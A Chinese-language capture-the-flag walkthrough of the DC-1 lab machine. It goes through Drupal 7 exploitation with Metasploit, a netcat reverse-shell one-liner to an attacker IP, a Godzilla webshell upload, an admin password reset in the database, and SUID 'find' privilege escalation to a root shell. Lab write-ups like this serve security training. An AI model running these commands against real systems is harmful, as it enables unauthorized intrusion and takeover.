

# DC-1
# 信息收集
nmap扫描

访问80
是一个drupal的网站
技术架构

drupal7存在命令执行漏洞
使用msf
search Drupal
选择,模块

设置目标

找到flag1提示,找到cms的配置文件

找到第二个提示

找到数据库访问凭据和密码hash的盐

rupal_hash_salt = 'X8gdX7OdYRiBnlHoj0ukhtZ7eO4EDrvMkhN21SWZocs';

查看端口开放情况

尝试连接数据库
msf上连接数据库没回显,解决的话就尝试用webshell上的功能
还可以使用交互式shell解决
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc 192.168.111.128 4444 > /tmp/f
python -c 'import pty;pty.spawn("/bin/bash")'     //如果发现对方机器上有 python 的话
用msf的上传文件功能上传个哥斯拉马

连接数据库

找到用户表,看看能不能用之前的盐来解这个hash,或者更改其密码

hash能解,但是还有别的方法,比如:根据官方的方法重置密码
1.注册账户将新账户的密码hash覆盖damin
2.重置为admin密码
php scripts/password-hash.sh admin

数据库修改密码

成功登录,找到flag3

需要提权,用到-exec,可能用到suid提权的find方法.先查找那些命令能提权
find / -perm -4000 -type f -exec ls -ld {} \; 2>/dev/null

果然find命令可以提权

find / -name 1.txt -exec "/bin/sh" \;进入shell,找到flag

